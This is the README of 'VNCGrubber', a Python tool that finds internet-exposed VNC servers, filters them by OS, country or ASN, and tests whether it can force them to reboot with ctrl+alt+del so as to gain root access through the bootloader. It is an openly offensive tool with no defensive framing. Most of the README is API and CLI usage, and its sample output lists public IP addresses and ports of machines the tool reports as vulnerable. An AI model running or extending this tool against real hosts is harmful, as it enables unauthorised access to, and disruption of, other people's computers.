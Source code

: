 # VNCGrubber
A script that takes ip addresses from [VNC Resolver](https://computernewb.com/vncresolver) and checks them for vulnerabilities by rebooting the machine via ctrl+alt+del, which further facilitates obtaining root access through the operating system bootloader

# Search

## Search with filter
```python
from typing import List
from VNCGrubber.search import VNC, search_filter

hosts: List[VNC] = await search_filter(clientname='ubuntu')
for vnc in hosts:
    print(vnc.ip, vnc,port)
```

## Search random
```python
from VNCGrubber.search import VNC, search_random

vnc: VNC = await search_random()
print(vnc.ip, vnc.port)
```

# ctrl+alt+del check
```python
from VNCGrubber.search import VNC, search_random
from VNCGrubber.vnc import check_crt_alt_del

vnc: VNC = await search_random()
print(await check_crt_alt_del(vnc.ip, vnc.port))
```

# CLI
```
$ python -m VNCGrubber --help

usage: VNCGrubber [-h] [--clientname CLIENTNAME] [--country COUNTRY] [--asn ASN] [--count COUNT] [--check_crt_alt_del [CHECK_CRT_ALT_DEL]] [--show_failed] [--screen_delay SCREEN_DELAY]

optional arguments:
  -h, --help            show this help message and exit
  --clientname CLIENTNAME
                        Filter by client name, note that it is case-sensitive!
  --country COUNTRY     Filter by ISO 3166-1 alpha-2 country code
  --asn ASN             Filter by ASN
  --count COUNT         Number of VNCs to find
  --check_crt_alt_del [CHECK_CRT_ALT_DEL]
                        If you specify this parameter without a value, only those VNCs from the search that pass the ctrl_alt_del check will be returned. If a value is passed, it must be a VNC
                        address that will be checked against ctrl_alt_del.
  --show_failed         Return VNCs that failed the ctrl_alt_del check
  --screen_delay SCREEN_DELAY
                        Delay between taking two screenshots in milliseconds

If you specify one of the filtering parameters, a search by fitration will be launched, otherwise a search for random VNCs will be launched. If you specify the --count option, the required VNC
number will be found. The number of found VNCs may be less than the --count parameter when searching with filtering.
```

## Random search
```
$ python -m VNCGrubber
123.143.19.126:5900
```

## Search with filter
```
$ python -m VNCGrubber --clientname ubuntu --count 10
65.109.48.105:5900
83.0.125.210:5900
5.9.62.60:5900
51.79.230.157:5900
101.6.30.195:5901
42.51.28.181:5900
47.98.47.8:5901
119.139.194.156:5901
123.116.96.2:5900
218.64.119.81:5901
```

## Check crt+alt+del
### Search with check
```
$ python -m VNCGrubber --clientname ubuntu --count 10 --check_crt_alt_del
65.109.48.105:5900
83.0.125.210:5900
5.9.62.60:5900
101.6.30.195:5901
42.51.28.181:5900
119.139.194.156:5901
123.116.96.2:5900
```

### Check a specific host
```
$ python -m VNCGrubber --check_crt_alt_del 119.139.194.156:5901
True
```
